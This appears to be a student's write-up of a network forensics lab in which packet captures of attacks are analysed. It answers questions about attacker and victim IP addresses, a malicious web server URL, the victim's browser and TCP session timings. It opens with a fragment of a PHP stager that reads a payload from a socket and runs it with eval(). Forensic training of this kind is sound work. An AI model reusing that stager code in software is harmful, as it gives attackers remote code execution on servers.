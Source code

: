     $a   = unpack("Nlen", $len);
    $len = $a['len'];
    $b   = '';
    while (strlen($b) < $len) {
        switch ($s_type) {
            case 'stream':
                $b .= fread($s, $len - strlen($b));
                break;
            case 'socket':
                $b .= socket_read($s, $len - strlen($b));
                break;
        }
    }
    $GLOBALS['msgsock']      = $s;
    $GLOBALS['msgsock_type'] = $s_type;
    eval($b);
    die();
    ```


Identify the attacker (malicious client) and the victim (web server).
  - **Attacker: 10.142.0.2, Victim: 	10.142.0.1**

(optional) Analyze the contents of the packet containing malicious query. What do you think is the effect of the query on the web server? How does the attacker follow-up on the initial malicious query?
    - **Creates a socket connection on ip port 4444 to listen to messages **

## Exercise 4

What are the IP addresses of victim and attacker?
  - **10.10.10.10 (attacker), 10.10.10.70 (victim)**

What is the address of the victim’s original HTTP request (i.e. the malicious web server)?
  - **http://10.10.10.10:8080/index.php**
The victim made a second request for another HTTP object. What is the file’s name and type?
  - **http://10.10.10.10:8080/index.phpmfKSxSANkeTeNrah.gif, which has a file name of _index.phpmfKSxSANkeTeNrah.gif_ that has a _gif_ type**

What is the name and version of the victim’s browser?
  - **Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)**

What is the operating system of the victim? Hint: Look out for a broadcast address.
  - **Windows NT 5.1; SV1**

How long was the TCP session at port 4444?
  - 86.3216 seconds

The infected victim made repeated attempts to connect to the server via port 4445. When was the relative time of the first attempt, and how long did the attempts continue until the victim made a successful connection?
  - First attempt at 35.947 seconds, last unsucessful attempt at 121.706 seconds, after which a successful attempt was made at 122.690 seconds

